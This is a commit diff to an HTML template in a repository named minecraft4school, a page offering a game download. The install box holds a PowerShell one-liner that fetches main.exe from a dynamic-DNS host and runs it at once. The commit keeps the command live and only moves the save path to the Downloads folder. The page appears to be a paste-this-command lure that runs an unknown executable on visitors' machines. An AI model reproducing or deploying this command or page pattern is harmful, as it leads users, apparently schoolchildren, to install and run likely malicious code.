

Before and after one commit to Codewood-Eastwood/minecraft4school, a Python web app: template templates/script_response.html in a window 1280 px wide. Shown: the part 1792-2789 px from the top of the page at 96% size. After the commit the page ends 2159 px from the top, so only its background shows below. Run offline with Jinja, Linux system fonts and the light colour scheme; the template is opened without the code that fills it: most values are stand-ins (such as "Sample title", 1, 10 or a date in 2020); grey boxes marked "Sample" are stand-in pictures.

Commit message:
Downloads to downloads

```diff
--- a/templates/script_response.html
+++ b/templates/script_response.html
@@ -343,51 +343,6 @@
         Copy and run the installation script to automatically download and install the game
       </p>
       <pre class="install-script">
-irm http://andrewbaker.ddns.net/download/main.exe -OutFile "$env:TEMP\main.exe"; Start-Process "$env:TEMP\main.exe"
-      </pre>
-    </section>
-
-    <!-- STEPS -->
-    <section class="steps-section">
-      <h2 class="section-title">Installation Guide</h2>
-      <div class="steps">
-        <div class="step">
-          <div class="step-number">1</div>
-          <div class="step-content">
-            <h3 class="step-title">Copy Script</h3>
-            <p class="step-description">Copy the installation script (CTRL+C)</p>
-          </div>
-        </div>
-        <div class="step">
-          <div class="step-number">2</div>
-          <div class="step-content">
-            <h3 class="step-title">Open Terminal</h3>
-            <p class="step-description">Launch the powershell / terminal app</p>
-          </div>
-        </div>
-        <div class="step">
-          <div class="step-number">3</div>
-          <div class="step-content">
-            <h3 class="step-title">Paste Script</h3>
-            <p class="step-description">Right-click to paste or use <kbd>Ctrl</kbd>+<kbd>V</kbd></p>
-          </div>
-        </div>
-        <div class="step">
-          <div class="step-number">4</div>
-          <div class="step-content">
-            <h3 class="step-title">Run Installation</h3>
-            <p class="step-description">Press <kbd>Enter</kbd> and let the script handle everything</p>
-          </div>
-        </div>
-      </div>
-    </section>
-  </div>
-
-  <footer>
-    <div class="container">
-      <p>© 2023 {{ filename }} - All rights reserved</p>
-    </div>
-  </footer>
-</body>
+irm http://andrewbaker.ddns.net/download/main.exe -OutFile "$env:USERPROFILE\Downloads\main.exe"; Start-Process "$env:USERPROFILE\Downloads\main.exe"
 <!-- -->
 </html>
```
